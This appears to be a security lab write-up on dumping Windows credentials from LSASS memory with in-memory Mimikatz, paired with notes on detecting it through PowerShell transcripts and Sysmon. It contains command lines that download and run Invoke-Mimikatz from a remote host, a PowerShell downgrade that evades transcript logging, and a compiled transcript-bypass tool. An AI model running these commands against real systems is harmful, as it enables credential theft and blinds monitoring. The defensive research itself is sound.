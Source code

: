 ```yaml
---
description: >-
  Local Security Authority (LSA) credential dumping with in-memory Mimikatz
  using powershell.
---
```


# Dumping Credentials from Lsass Process Memory with Mimikatz

## Execution

{% code title="attacker@victim" %}
```csharp
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
{% endcode %}

Hashes and plain text passwords of the compromised system are dumped to the console:

![](../../.gitbook/assets/pwdump-mimikatz-results.png)

## Observations

The process commandline is blatantly showing what is happening in this case, however, you should assume that file names and script argument names will be changed/obfuscated by a sophisticated attacker:

![victim host inspection](../../.gitbook/assets/pwdump-mimikatz.png)

As a defender, if your logs show a script being downloaded and executed in memory in a "relatively" short timespan, this should raise your suspicion and the host should be investigated further to make sure it is not compromised:

![](../../.gitbook/assets/pwdump-mimikatz-sysmon.png)

### Transcript Logging #1

PowerShell transcript logging should allow you to see the commands entered into the console and their outputs, however I got some unexpected results at first.

For the first test, I setup transcript logging in my powershell (version 2.0) profile:

{% code title="C:\Users\mantvydas\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" %}
```bash
Start-Transcript -Path C:\transcript.txt
```
{% endcode %}

{% hint style="warning" %}
Note that enabling transcription logging is not recommended from powershell profiles, since `powershell -nop` will easily bypass this defence - best if logging is enabled via GPOs.
{% endhint %}

### Cannot Start Transcript

First thing I noticed was that if at least one powershell instance was already running on the victim system, the transcript could not be started (assume because the file is in use already), which makes sense, but is not helpful for the victim at all:

![](../../.gitbook/assets/pwdump-transcript-cant-start.png)

This could be fixed by amending the PS profile so that the the transcript gets saved to a file the OS chooses itself rather than hardcoding it or in other words, doing `Start-Transcript` without specifying the path will do just fine.

### Empty Transcript - Weird

Below shows three windows stacked - top to bottom:

1. Attacker's console via a netcat reverse shell using cmd.exe, issuing a command to dump credentials with mimikatz powershell script. Note how it says that the transcript was started and the mimikatz output follows;
2. **Empty (!)** transcript logging file transcript.txt on the victim system;
3. Process explorer on the victim system showing the process ancestry of the reverse shell cmd.exe PID `616` which had spawned the powershell process (mentioned in point 1) that ran the mimikatz script;

![](../../.gitbook/assets/pwdump-transcript-empty.png)

As can be seen from the above screenshot, the transcript.txt is empty although mimikatz ran successfully and dumped the credentials.\
\
This brings up a question if I am doing something wrong or if this is a limitation of some sort in transcript logging, so I will be trying to:

* dump credentials from a different process ancestry
* dump credentials locally on the victim system (as if I was doing it via RDP)
* upgrade powershell to 5.0+

### Dumping Credentials Locally

This works as expected and the transcript.txt gets populated with mimikatz output:

![](../../.gitbook/assets/pwdump-mimikatz-transcript.png)

### Dumping Credentials From a Different Process Ancestry

Tried dumping creds from the ancestry:\
`powershell > nc > cmd > powershell` instead of `cmd > nc > cmd > powershell` - to no avail.

### Transcript Logging #2

I have updated my Powershell version from 2.0 to 5.1 and repeated credential dumping remotely `(cmd > nc > cmd > powershell)` process ancestry, same like the first time, where the transcript.txt came back empty. This time, however, the results are different - the output is logged this time:

![Powershell 5.1 transcribing powershell console remotely with no issues](../../.gitbook/assets/pwdump-transcript-working.png)

### Back to PowerShell 2.0

Even though the victim system now has Powershell 5.0 that is capable of transcript logging, we can abuse the `-version 2` switch of the powershell.exe binary like so:

```bash
powershell -version 2 IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

... and the transcript will again become useless:

![](../../.gitbook/assets/pwdump-ps2-no-transcript.png)

This abuse, however, allows defenders to look for logs showing commandline arguments that suggest powershell is being downgraded and flag them as suspicious activity:

![](../../.gitbook/assets/pwdump-powershell-downgrade.png)

### Bypassing w/o Downgrading

Another technique allowing to bypass the transcript logging without downgrading is possible by using a compiled c# program by [Ben Turner](https://gist.githubusercontent.com/benpturner/d62eb027a518b3743520a34d3aecb915/raw/32d96dafe148c784706b0dc7ed1d0fbbab51c354/posh.cs):

{% file src="../../.gitbook/assets/posh.cs" %}
Transcript Bypass without Downgrade - C#
{% endfile %}

Compile the code .cs code:

```csharp
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:C:\experimemts\transcript-bypass\bypass.exe C:\experiments\transcript-bypass.cs /reference:System.Management.Automation.dll
```

If you are having problems locating the `System.Management.Automation.dll` - you can find its location by using powershell: `PS C:\Users\mantvydas> [psobject].assembly.location`

We can then launch the transcript-bypass and use powershell and not worry about the transcript, because although the file will be created, it will be showing this:

![](../../.gitbook/assets/pwdump-bypass-no-downgrade.png)

I wanted to check if I could find any traces of non-powershell.exe processes creating transcript files in the logs, so I updated the sysmon config:

{% code title="sysmonconfig.xml" %}
```markup
<FileCreate onmatch="include">
    <TargetFilename condition="end with">.txt</TargetFilename>
</FileCreate>
```
{% endcode %}

...and while I could see powershell.exe creating transcript files:

![](../../.gitbook/assets/powershell-transcript-logs.png)

I could not get sysmon to log the transcript.txt file creation event caused by the `bypass.exe` although the file got successfully created!

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1003" %}

{% embed url="https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html" %}
